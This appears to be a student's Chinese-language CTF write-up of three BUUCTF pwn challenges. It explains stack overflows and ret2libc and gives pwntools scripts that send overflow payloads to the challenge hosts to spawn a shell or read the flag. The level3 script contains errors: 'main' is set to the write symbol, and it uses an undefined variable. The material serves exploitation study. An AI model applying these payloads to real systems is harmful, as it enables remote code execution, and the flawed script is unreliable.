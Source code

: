 # pwn

## jarvisoj_level2
>做题人：郑林均
>url链接：https://buuoj.cn/challenges#jarvisoj_level2

下载文件后放linux用checksec一下

![alt text](image.png)

发现32位的，放进IDA看一下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  system("echo 'Hello World!'");
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  system("echo Input:");
  return read(0, buf, 0x100u);
}
```
很容易发现有溢出点buf，read可以读进0x100，而buf只有0x88，再shift加f12，发现bin/sh

![alt text](image-1.png)

PIE保护没开
很容易想到ret2libc，查找bin/sh地址，system地址，可以开始构造payload了


理解什么是ret2libc，利用栈溢出，把程序的执行流劫持到已有的libc函数中，比如system
先理解在汇编语言32位计算机中函数调用的过程
```
.text:08048457 68 40 85 04 08                push    offset command                  ; "echo Input:"
.text:0804845C E8 BF FE FF FF                call    _system
```
可以看到，在调用函数之前，会将函数需要的参数压入栈中，然后调用函数即使用call的时候会，CPU会自动完成“push返回地址”的操作，最后才是进入到被调用函数的逻辑
```
[padding栈溢出直到返回地址] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址]
```
需要构造返回地址的原因是我们使用的是栈溢出覆盖返回地址从而达到调用函数，不是call指令达成的，因此不会自动完成push操作，所以要手动完成，返回地址可以是main函数或exit函数地址

对于参数“/bin/sh”部分，分为两种情况，即程序中含有该字符串和程序中没有该字符串

如果有该字符串，那么直接指明该字符串的位置即可

如果没有，那么需要直接在栈中写入该参数（一般放在payload的末尾），比如 b"/bin/sh\x00"，然后在payload中指明该参数的位置
```
[padding] + [system函数地址] + [返回地址] + ["/bin/sh"字符串地址] + b"/bin/sh\x00"

```
然后可以开始构造poc
```python
from pwn import*

r=remote('node5.buuoj.cn',29694)

system_adr=0x08048320 
sh_adr=0x0804A024
adr=0x08048480
payload=b'a'*(0x88+4)+p32(system_adr)+p32(adr)+p32(sh_adr)

r.sendline(payload)

r.interactive()

```
得到flag

##  warmup_csaw_2016
>做题人：郑林均
>url链接：[buuctf](https://buuoj.cn/challenges#warmup_csaw_2016)
先放进linux用checkse一下

![alt text](image-2.png)

发现是64位并且什么保护都没开，再放进IDA看看
查看主函数

```c
__int64 __fastcall main(int a1, char **a2, char **a3)
{
  char s[64]; // [rsp+0h] [rbp-80h] BYREF
  char v5[64]; // [rsp+40h] [rbp-40h] BYREF

  write(1, "-Warm Up-\n", 0xAuLL);
  write(1, "WOW:", 4uLL);
  sprintf(s, "%p\n", sub_40060D);
  write(1, s, 9uLL);
  write(1, ">", 1uLL);
  return gets((__int64)v5);
}
```
发现溢出点，用了gets函数，输入没有限制
然后找获得权限的函数
用shift+f12查看

![alt text](image-3.png)

发现有cat flag.txt

就用这个来获得flag
现在可以开始构造payload了
```python
from pwn import* #引用pwn库

r=remote('node5.buuoj.cn',28399)  #远程链接

system_adr=0x040060D #cat flag.txt函数的地址

payload=b'a'*(0x40+8)+p64(system_adr) //先输入0x40+8个垃圾数据导致其返回地址被覆盖，然后再加入flag函数地址

r.sendline(payload)

r.interactive()

```
得到flag

## jarvisoj_level3

>做题人：郑林均
>url链接：[jarvisoj_level3
1](https://buuoj.cn/challenges#jarvisoj_level3)

先放入linux用checksec一下，发现是32位的，开启了NX保护，然后放进IDA看看，很容易发现溢出点
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);                  // //溢出点
                                                
}
```

```python
from pwn import*
from LibcSearcherX import*
r=remote('node5.buuoj.cn',27144)
elf=ELF("/home/yuji/桌面/level3")
write_plt=elf.symbols['write']
write_got=elf.got['write']
main=elf.symbols['write']
payload_adr=flat(b'a'*(0x88+4)+p32(write_plt)+p32(main)+p32(1)+p32(write_got)+p32(4))

#system_adr=0x04004C0     
#sh_adr=0x0600A90
#adr=0x08048480
#rdi_adr=0x04006b3 
#payload=b'a'*(0x80+8)+p64(rdi_adr)+p64(sh_adr)+p64(system_adr)
r.recvuntil('Input:\n')
r.sendline(payload_adr)
write_adr=u32(r.recv(4))
libc=LibcSearcherLocal("write",write_adr)
libcbase=write_adr-libc.sym['write']
system=libcbase+libc.sym['system']
bin_sh=libcbase+libc.sym['str_bin_sh']
print("[+] Phase 3 Inprogress.")
print("[+] Real Address: ",hex(write_addr))
print("[+] Base Address: ",hex(write_addr))
print("[+] System Address: ",hex(system))
print("[+] /bin/sh Address: ",hex(bin_sh))
print("[+] Phase 3 Completed")
print("--------------------------------------------------")
payload = (b'A' * ( 0x88 + 0x4 ) + p32(system) + p32(0) + p32(bin_sh) )
r.sendline(payload)
r.interactive()
```

​​ELF​​：加载目标二进制文件，便于获取符号信息
write_plt:用于获得write函数的plt地址，调用writw函数

write_got：获取write函数的GOT地址，该地址存储了write函数在内存中的实际地址（在第一次调用后由动态链接器填充）。

>main：获取主函数的地址，用于在泄露地址后返回主函数重新执行。
payload_adr去泄漏write函数的真实地址，返回地址尾write_plt，这样会调用write函数，然后后面是main函数，作为write函数返回后的地址，再次执行mian函数，方便二次调用，然后是调用write函数的参数：fd=1（标准输出），buf=write_got（要泄露的地址），count=4（打印4字节）
r.recvunti是再收到"Input:\n"时,发送sendline，r.recv(4)接收4字节数据，u32将其转换为整数。
>LibcSearcher：根据write函数泄漏的地址，查出libc的版本
>libcbase:即用泄露的write地址减去libc中write函数的偏移得到libc基址。
>然后通过基址加上libc中system和str_bin_sh（字符串/bin/sh的地址）的偏移得到这两个关键地址




